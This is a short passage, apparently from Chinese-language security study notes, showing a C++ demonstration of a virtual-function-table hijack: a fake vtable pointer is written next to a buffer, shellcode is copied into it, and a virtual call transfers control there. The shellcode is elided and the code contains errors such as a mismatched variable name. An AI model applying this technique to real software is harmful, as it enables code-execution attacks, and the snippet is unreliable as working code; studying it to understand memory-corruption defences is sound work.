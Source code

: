 ![虚函数实现](/image/虚函数实现.png)虚函数攻击

```c++
char[] shellcode=“………”;
class vf
{
    public:
    char buf[200];
    virtual void test(void)
    {
    	cout<<"Class Vtable::test()"<<endl;
    }
};
vf overflow, *p;

void main(void)
{
    LoadLibrary("user32.dll");
    char * p_vtable;
    p_vtable=overflow.buf-4;//point to virtual table
	__asm int 3
	//reset fake virtual table to 0x0042E430
	//the address may need to adjusted via runtime debug
    p_vtable[0]=0x30;
	p_vtable[1]=0xE4;
	p_vtable[2]=0x42;
	p_vtable[3]=0x00;
    strcpy(overflow.buf,shellcode1);//set fake
    virtual function pointer
    p=&overflow;
    p->test();
}

```

